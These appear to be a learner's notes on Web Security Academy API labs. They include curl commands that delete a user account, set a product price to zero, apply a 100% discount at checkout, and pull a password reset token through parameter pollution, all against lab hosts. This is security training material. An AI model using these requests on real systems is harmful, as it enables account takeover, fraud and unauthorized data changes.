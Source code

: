 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```



____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.

```bash
curl -X PATCH https://0a8200d403af68b280a4307f00cc0063.web-security-academy.net/api/products/1/pric  
e -d '{"price":0}' -H 'Cookie: session=lzNDDGErMDObJ2YNiFeCYWPcrGi4en9m' -H 'Content-Type: application/json'
```

___

```bash
curl -X POST https://0a88007104bb78eb82061ac200d600e9.web-security-academy.net/api/checkout -H 'Coo  
kie: session=5ruUmRzO6InKX10BeH9MhoKEPxCSXjqC' -H 'Content-Type: application/json' -d '{"chosen_products":[{"product_id":"1",  
"quantity":1}],"chosen_discount":{"percentage":100}}' -i
```

____
### server-side parameter pollution

Place query syntax characters like `#`, `&`, and `=` in your input and observe how the application responds

![[Pasted image 20250123184928.png]]

![[Pasted image 20250123185101.png]]

`field=email`is a valid field 
`field=reset_token`

![[Pasted image 20250123185534.png]]

```
/forgot-password?reset_token=94j01pbswpftpxe8a3y8wrpv43uhk41e
```

___



